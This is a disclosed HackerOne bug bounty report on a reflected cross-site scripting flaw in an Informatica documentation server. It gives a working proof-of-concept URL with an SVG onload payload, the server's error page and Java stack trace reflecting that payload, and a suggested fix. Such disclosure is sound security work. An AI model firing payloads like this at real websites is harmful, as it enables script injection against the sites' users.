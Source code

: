 # [doc.rt.informaticacloud.com] Reflected XSS via Stack Strace

## Report Details
- **Report ID**: 232320
- **URL**: https://hackerone.com/reports/232320
- **State**: Closed
- **Severity**: high
- **Submitted**: 2017-05-26T22:19:51.680Z
- **Disclosed**: 2022-07-23T11:03:56.509Z

## Reporter
- **Username**: bigbear_
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: informatica

## Vulnerability Information
Hello.

###PoC for reflected XSS:

`http://doc.rt.informaticacloud.com/infocenter/ActiveVOS/v92/nav/7_1_2_3_2_1<svg/onload=alert(document.domain)>`

###Response:

```
<body><h2>HTTP ERROR 500</h2>
<p>Problem accessing /help/nav/7_1_2_3_2_1%3Csvg/onload=alert(document.domain)%3E. Reason:
<pre>    For input string: "1&lt;svg/onload=alert(document.domain)&gt;"</pre></p><h3>Caused by:</h3><pre>java.lang.NumberFormatException: For input string: "1<svg/onload=alert(document.domain)>"
	at java.lang.NumberFormatException.forInputString(NumberFormatException.java:65)
	at java.lang.Integer.parseInt(Integer.java:492)
	at java.lang.Integer.parseInt(Integer.java:527)
	at org.eclipse.help.internal.webapp.servlet.NavServlet.getTopic(NavServlet.java:90)
	at org.eclipse.help.internal.webapp.servlet.NavServlet.doGet(NavServlet.java:56)
	at javax.servlet.http.HttpServlet.service(HttpServlet.java:707)
	at javax.servlet.http.HttpServlet.service(HttpServlet.java:820)
	at org.eclipse.equinox.http.registry.internal.ServletManager$ServletWrapper.service(ServletManager.java:180)
	at org.eclipse.equinox.http.servlet.internal.ServletRegistration.handleRequest(ServletRegistration.java:90)
	at org.eclipse.equinox.http.servlet.internal.ProxyServlet.processAlias(ProxyServlet.java:111)
	at org.eclipse.equinox.http.servlet.internal.ProxyServlet.service(ProxyServlet.java:67)
	at javax.servlet.http.HttpServlet.service(HttpServlet.java:820)
	at org.eclipse.equinox.http.jetty.internal.HttpServerManager$InternalHttpServiceServlet.service(HttpServerManager.java:318)
	at org.mortbay.jetty.servlet.ServletHolder.handle(ServletHolder.java:502)
	at org.mortbay.jetty.servlet.ServletHandler.handle(ServletHandler.java:380)
	at org.mortbay.jetty.servlet.SessionHandler.handle(SessionHandler.java:181)
	at org.mortbay.jetty.handler.ContextHandler.handle(ContextHandler.java:765)
	at org.mortbay.jetty.handler.HandlerWrapper.handle(HandlerWrapper.java:152)
	at org.mortbay.jetty.Server.handle(Server.java:324)
	at org.mortbay.jetty.HttpConnection.handleRequest(HttpConnection.java:535)
	at org.mortbay.jetty.HttpConnection$RequestHandler.headerComplete(HttpConnection.java:865)
	at org.mortbay.jetty.HttpParser.parseNext(HttpParser.java:540)
	at org.mortbay.jetty.HttpParser.parseAvailable(HttpParser.java:213)
	at org.mortbay.jetty.HttpConnection.handle(HttpConnection.java:404)
	at org.mortbay.io.nio.SelectChannelEndPoint.run(SelectChannelEndPoint.java:409)
	at org.mortbay.thread.QueuedThreadPool$PoolThread.run(QueuedThreadPool.java:520)
```

It is succeful worked in IE/MozillaFirefox.
{F188420}

###Possible Fix:

Disable Stack Trace on this resource.

## Attachments
- 2017-05-27_05-14-39.png
